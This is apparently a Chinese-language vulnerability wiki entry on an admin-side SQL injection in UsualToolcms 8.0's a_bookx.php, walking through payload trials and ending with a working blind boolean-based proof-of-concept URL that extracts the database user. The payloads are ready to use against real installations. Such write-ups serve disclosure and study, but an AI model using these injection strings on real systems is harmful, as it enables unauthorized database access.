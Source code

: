 UsualToolcms 8.0 a\_bookx.php 后台注入漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

![1.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId24.png)

mysqli\_query不支持堆叠，无回显初步构造payload：

    t=move&id[0]=1',(select 1 and sleep(10)),'2

执行的SQL语句：

    UPDATE `cms_book` set catid='' WHERE id in('1',(select 1 and sleep(10)),'2')

能够正确执行的SQL语句：

    UPDATE `cms_book` set catid='' WHERE id in(1,(select 1 and sleep(10)))

因此初步设想以失败告终，\$result返回bool值，True显示咨询删除成功，false则显示咨询删除失败则可以if构造语句，语句判断语句为真则执行一条可执行的语句，假若为假执行一条报错语句即可使result为False的语句

updatexml，if条件真假与否都会报错

![2.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId25.png)

extractvalue，if条件真假与否都会报错

![3.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId26.png)

join报错:`select id from mysql.user a join mysql.user b ，result`返回结果均为true

![4.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId27.png)

floor报错：`SELECT COUNT(*) FROM user GROUP BY FLOOR(RAND(0)*2);`同样返回结果均为true

![5.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId28.png)

exp():
mysql\>=5.5.5会报错;mysql\>=5.5.53，报错不能注出数据，我这里为5.5.53，但是可以用于使语句返回结果为false

![6.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId29.png)

### POC：

    https://www.0-sec.org/demo/cmsadmin/a_bookx.php?t=move&id[0]=1%27)or%20if((substr((select%20user()),1,1))=%27d%27,(select%201),exp(~0));%23

![7.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0a_bookx.php后台注入漏洞/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/8100
